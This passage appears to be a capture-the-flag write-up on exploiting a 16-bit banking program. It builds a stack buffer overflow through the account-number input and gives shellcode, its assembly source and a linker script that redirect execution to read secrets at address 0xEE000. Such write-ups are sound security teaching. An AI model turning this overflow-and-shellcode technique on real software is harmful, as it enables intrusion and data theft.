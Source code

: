 ```
Balance: 1337
CMD>
```

A possible way to exploit this is:
1. Run the `balance`-command
2. Overflow the buffer that the account number is being read into.
Putting our code on the stack, and overwriting the return address to point to
our code.

First we construct our shellcode. Since we know the secrets are at
memory location `0xEE000` this is where we will have to extract them from.

One possible shellcode is the following:
```
31 c0                	xor    %ax,%ax
b4 ee                	mov    $0xee,%ah
8e d8                	mov    %ax,%ds
66 6a 00             	pushl  $0x0
66 6a 00             	pushl  $0x0
b8 0f 10             	mov    $0x100f,%ax
ff e0                	jmp    *%ax
```

To create this shellcode we can create a `shellcode.s` file:
```
.code16gcc
.globl _start
.org 0x0

_start:
xor %ax, %ax
movb $0xEE, %ah
movw %ax, %ds
pushl $0
pushl $0
movw $0x100f,%ax
jmp %ax
```

In addition we need a linker script, `elf_script.ld`:
```
SECTIONS
{
    . = 0x1000;
    .text :
    {
        *(.text);
    }
    .data :
    {
        *(.data);
        *(.bss);
        *(.rodata);
    }
    _heap = ALIGN(4);
}
```
